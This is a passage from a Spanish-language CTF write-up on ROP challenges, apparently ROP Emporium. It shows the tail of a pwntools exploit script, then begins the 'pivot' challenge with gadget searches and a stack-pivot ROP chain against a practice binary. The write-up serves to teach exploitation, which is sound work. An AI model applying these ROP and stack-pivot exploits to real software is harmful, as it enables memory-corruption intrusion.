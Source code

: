 ```python
        msg = "rop chain length ({} bytes) is bigger than buffer (472 bytes)".format(str(len(rop.chain())))
        log.info(msg)
        exit(1)
else:
    msg = "rop chain length: {}".format(str(len(rop.chain())))
    log.info(msg)

# PWN
print(p.clean().decode("utf-8"))
p.sendline(offset + RBP + rop.chain())
print(p.clean().decode("utf-8"))
```

Un dato curioso es que la cadena junto al offset tienen el mismo tamaño que el buffer, es decir, tiene el tamaño máximo posible.

---
# pivot

> Stack space is at a premium in this challenge and you'll have to pivot the stack onto a second ROP chain elsewhere in memory to ensure your success.
---

### Analizar el binario

Si ejecutamos el binario, vemos que nos pide una ROP chain y nos dice la dirección donde se guardará (1er input), después nos dice que "machaquemos la pila" (2º input).

En la descripción del reto se dice que el espacio en pila es escaso y que tendremos que moverla. Calculo este espacio:

24 bytes offset + 8 bytes RBP + 24 bytes stack

Podemos hacer una cadena de 3 instrucciones en el 2º input, que debemos usar para mover la pila a la dirección en la que se guarda ROP chain del 1er input:

```
$ ropper --file pivot --console

(pivot/ELF/x86_64)> stack_pivot
0x00000000004009bd: xchg rax, rsp; ret;

(pivot/ELF/x86_64)> search pop rax
0x00000000004009bb: pop rax; ret;
```

La segunda cadena quedaría así:

```
rop2 = ROP(p.elf)

rop2.raw(pop_rax)
rop2.raw(p64(gods_addr))
rop2.raw(xchg)
```
